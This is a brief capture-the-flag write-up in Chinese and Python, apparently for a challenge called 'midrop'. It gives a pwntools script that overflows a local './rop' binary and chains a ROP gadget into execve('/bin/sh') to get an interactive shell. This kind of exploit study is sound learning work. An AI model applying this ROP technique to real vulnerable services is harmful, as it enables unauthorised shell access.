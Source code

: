 # midrop

execve()接受三个参数，path放在rdi，argv[]放在rsi，envp[]放在edx  

现在要使execve('/bin/sh', 0, 0)

```python
import pwn

pwn.context(arch='amd64', os='linux', log_level='debug')

p = pwn.process('./rop')
e = pwn.ELF('./rop')

execve_addr = pwn.p64(0x4006F6)     # lea mm %edi ; call _execve

payload1 = b'A' * 16 + b'/bin/sh\x00'
p.sendlineafter(b'who are you?', payload1)

# ROPgadget --binary rop | grep 'pop'
pop_rsi_r15_addr = pwn.p64(0x400811)    # pop rsi ; pop r15 ; ret

payload2 = b'A' * 8 + b'B' * 8 + pop_rsi_r15_addr + pwn.p64(0) + pwn.p64(0) + execve_addr
p.sendlineafter(b'if you want to do?', payload2)

p.recv()
p.interactive()
```